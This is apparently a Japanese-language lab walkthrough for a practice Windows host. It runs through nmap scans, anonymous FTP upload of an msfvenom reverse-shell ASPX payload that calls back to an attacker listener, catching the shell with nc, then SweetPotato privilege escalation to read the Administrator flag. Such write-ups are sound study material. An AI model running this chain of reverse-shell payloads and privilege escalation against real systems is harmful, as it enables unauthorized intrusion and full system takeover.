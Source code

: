 1.　列挙   
初回のポートスキャン    
```
nmap -Pn -n -vvv -sV -oA nmap/initial 10.11.1.13
```
開いているポートに対して詳細なスキャン
```
nmap -Pn -sC -sV -p 21 -oA nmap/base_script 135 139 445 1433 3389 5800 5900 49152-48158 10.11.1.13
```
フルポートスキャン
```
nmap -Pn -p- -oA nmap/all_port 10.11.1.13
```
4157ポートを詳細にスキャン
```
nmap -Pn -p4167 -sC -sV 10.11.1.13
```
21ポートを詳細にスキャン
```
nmap -Pn -p21 -sC -sV 10.11.1.13
```
2.　FTP接続
```
ftp 10.11.1.13
```
3.　リバースシェルを作成
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.240 LPORT=4444 -f aspx -e x86/shkata_ga_nai -o rshell_64.aspx
```
4.　FTPでアップロード
```
ftp 10.11.1.13 21
Name (10.11.1.13:kali): anonymous
Password: 
ftp> put rshell_64.aspx
local: rshell_64.aspx remote: rshell_64.aspx
229 Entering Extended Passive Mode (|||49386|)
125 Data connection already open; Transfer starting.
100% |************************|  3440       10.31 MiB/s    --:-- ETA
226 Transfer complete.
3440 bytes sent in 00:00 (13.06 KiB/s)
```
5.　webから接続
```
http://10.11.1.13:4167/rshell_64.aspx
```
6.　低権限シェル取得
```
nc -lnvp 4444
listening on [any] 4444 ...
connect to [192.168.119.240] from (UNKNOWN) [10.11.1.13] 49400
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```
7.　権限昇格の為にSweetPotato.exeをアップロード
```
 ftp 10.11.1.13 21
Name (10.11.1.13:kali): anonymous
Password: 
ftp> put SweetPotato.exe
local: SweetPotato.exe remote: SweetPotato.exe
229 Entering Extended Passive Mode (|||49394|)
125 Data connection already open; Transfer starting.
100% |********|   764 KiB  330.39 KiB/s    00:00 ETA
226 Transfer complete.
782336 bytes sent in 00:03 (246.93 KiB/s)
ftp> 
```
8.　フラグ取得
```
c:\inetpub\wwwroot>SweetPotato.exe -a "type c:\Users\Administrator\Desktop\proof.txt"
```